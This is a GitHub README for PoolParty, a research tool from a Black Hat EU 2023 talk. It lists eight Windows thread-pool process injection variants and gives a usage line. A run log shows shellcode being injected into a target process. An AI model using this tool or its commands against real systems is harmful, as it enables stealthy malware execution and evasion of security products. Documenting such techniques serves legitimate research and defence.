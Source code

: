 
# PoolParty
A collection of fully-undetectable process injection techniques abusing Windows Thread Pools. Presented at Black Hat EU 2023 Briefings under the title - [**The Pool Party You Will Never Forget: New Process Injection Techniques Using Windows Thread Pools**](https://www.blackhat.com/eu-23/briefings/schedule/#the-pool-party-you-will-never-forget-new-process-injection-techniques-using-windows-thread-pools-35446)

## PoolParty Variants

| Variant ID  | Varient Description |
| ------------- | ----------------- |
| 1  | Overwrite the start routine of the target worker factory       |
| 2  | Insert TP_WORK work item to the target process's thread pool   |
| 3  | Insert TP_WAIT work item to the target process's thread pool   |
| 4  | Insert TP_IO work item to the target process's thread pool     |
| 5  | Insert TP_ALPC work item to the target process's thread pool   |
| 6  | Insert TP_JOB work item to the target process's thread pool    |
| 7  | Insert TP_DIRECT work item to the target process's thread pool |
| 8  | Insert TP_TIMER work item to the target process's thread pool  |

## Usage
```
PoolParty.exe -V <VARIANT ID> -P <TARGET PID> -F <SHELLCODE FILE>
```

## Usage Examples

Insert TP_WORK work item to process ID 43988
```
> .\PoolParty\x64\Release\PoolParty.exe -V 2 -P 43988 -F .\demon.x64.bin
[info]    Loaded shellcode (290097 bytes) from: .\demon.x64.bin
[info]    Starting PoolParty attack against process id: 43988
[info]    Retrieved handle to the target process: 000000000000005C
[info]    Hijacked worker factory handle from the target process: 00000000000000BC
[info]    Allocated shellcode memory in the target process: 000001A820F80000
[info]    Written shellcode to the target process
[info]    Retrieved target worker factory basic information
[info]    Read target process's TP_POOL structure into the current process
[info]    Created TP_WORK structure associated with the shellcode
[info]    Modified the TP_WORK structure to be associated with target process's TP_POOL
[info]    Allocated TP_WORK memory in the target process: 000001A820FD0000
[info]    Written the specially crafted TP_WORK structure to the target process
[info]    Modified the target process's TP_POOL task queue list entry to point to the specially crafted TP_WORK
[info]    PoolParty attack completed successfully
```

## Author - Alon Leviev
* LinkedIn - [Alon Leviev](https://il.linkedin.com/in/alonleviev)
* Twitter - [@_0xDeku](https://twitter.com/_0xDeku)
